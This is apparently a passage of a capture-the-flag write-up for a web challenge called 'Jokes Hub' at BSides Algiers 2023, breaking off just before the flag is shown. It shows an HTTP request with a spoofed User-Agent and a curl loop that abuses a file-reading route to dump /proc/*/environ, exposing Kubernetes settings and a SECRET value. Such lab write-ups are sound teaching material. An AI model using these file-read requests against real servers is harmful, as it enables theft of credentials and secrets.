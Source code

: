 Apprerantly, reading using `fileio_read()` can't read the environ files. So, we use `/fileReader/` route from flagger.

First let's test it :

```
GET /fileReader/ HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: flagger-user
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 09:50:53 GMT
content-type: text/html; charset=utf-8
content-length: 18
connection: close

File doesn't exist
```

Now let's give it some files to read :

```
┌──(rivench㉿kali)-[~/…/CTFs/BSides_Algiers_2k23/web/Jokes_Hub_3]
└─$ for i in {1..15}; do curl "https://jokes-hub-1.bsides.shellmates.club/fileReader/?file=/proc/$i/environ" --output proc$i -H "User-agent: flagger-user"; done   
```

```
└─$ cat proc12
KUBERNETES_SERVICE_PORT=443KUBERNETES_PORT=tcp://10.88.0.1:443HOSTNAME=jokes-hub-1-6c94866568-mc8qvHOME=/home/ctfKUBERNETES_PORT_443_TCP_ADDR=10.88.0.1PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binKUBERNETES_PORT_443_TCP_PORT=443KUBERNETES_PORT_443_TCP_PROTO=tcpSECRET=0fd3f5550fc3662c07bea5219abbc7fcadbda7d9KUBERNETES_SERVICE_PORT_HTTPS=443KUBERNETES_PORT_443_TCP=tcp://10.88.0.1:443KUBERNETES_SERVICE_HOST=10.88.0.1PWD=/ctf   
```

So the secret is : 0fd3f5550fc3662c07bea5219abbc7fcadbda7d9

From there, we get the flag :
